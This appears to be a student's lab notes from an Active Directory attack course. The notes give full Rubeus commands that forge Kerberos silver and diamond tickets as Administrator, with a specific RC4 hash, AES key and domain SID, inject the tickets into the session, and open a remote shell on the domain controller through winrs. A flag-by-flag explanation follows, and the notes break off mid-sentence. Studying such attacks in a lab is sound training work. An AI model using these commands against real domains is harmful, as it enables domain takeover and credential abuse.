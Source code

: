 
You can also use aes256 keys in place of NTLM hash: we use hash of the dcorp-dc$(rc4) ntlm 
```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /service:http/dcorp-dc.dollarcorp.moneycorp.local /rc4:c6a60b67476b36ad7838d7875c33c2c3 /sid:S-1-5-21-719815819-3726368948-3917688648 /ldap /user:Administrator /domain:dollarcorp.moneycorp.local /ptt
```
and we import the silver ticket successfully.

make sure rc4 is correct or else it iwll not work
then check if the ticket is correct
```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn%
```
We have the HTTP service ticket for dcorp-dc, let?s try accessing it using winrs. Note that we are using FQDN of dcorp-dc as that is what the service ticket has:
```
winrs -r:dcorp-dc.dollarcorp.moneycorp.local cmd
```

We have another ways as well in OBJ 9

---

==**DIAMOND ticket attack**==
Argsplit for diamond from elevated shell on student VM

then run this command 

```
C:\AD\Tools\Rubeus.exe diamond /krbkey:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /tgtdeleg /enctype:aes /ticketuser:administrator /domain:dollarcorp.moneycorp.local /dc:dcorp-dc.dollarcorp.moneycorp.local /ticketuserid:500 /groups:512 /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```
- **C:\AD\Tools\Rubeus.exe**: This is the path to the Rubeus executable, which is used for various Kerberos-related tasks.
- **diamond**: This is a specific operation or command within Rubeus. It typically indicates the use of Kerberos ticket-granting features.
- **/krbkey:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848**: This is the Kerberos key used to encrypt/decrypt tickets. It's provided in hexadecimal format.
- **/tgtdeleg**: This option requests a Ticket Granting Ticket (TGT) that can be used for delegation, allowing the user to act on behalf of another user.
- **/enctype**
    : Specifies the encryption type for the tickets. AES (Advanced Encryption Standard) is a common choice.
- **/ticketuser**
    : This specifies the user account for which the ticket is being requested—in this case, the "administrator" account.
- **/domain**
    **.moneycorp.local**: This indicates the domain in which the user account resides.
- **/dc** **.dollarcorp.moneycorp.local**: This specifies the Domain Controller (DC) to be used for the operation.
- **/ticketuserid:500**: This specifies the user ID (in this case, 500) of the account for which the ticket is requested. User ID 500 typically corresponds to the built-in administrator account.
- **/groups:512**: This indicates the group ID (in this case, 512), which typically represents the "Domain Admins" group.
- **/createnetonly:C:\Windows\System32\cmd.exe**: This option creates a network logon session that allows the execution of a command (in this case, cmd.exe) without needing a full interactive logon.
- **/show**: This option typically instructs Rubeus to display the details of the ticket being created or used.
- **/ptt**: This stands for "Pass the Ticket," a technique that allows you to use the Kerberos ticket for authentication without needing to enter credentials.
then try to access 
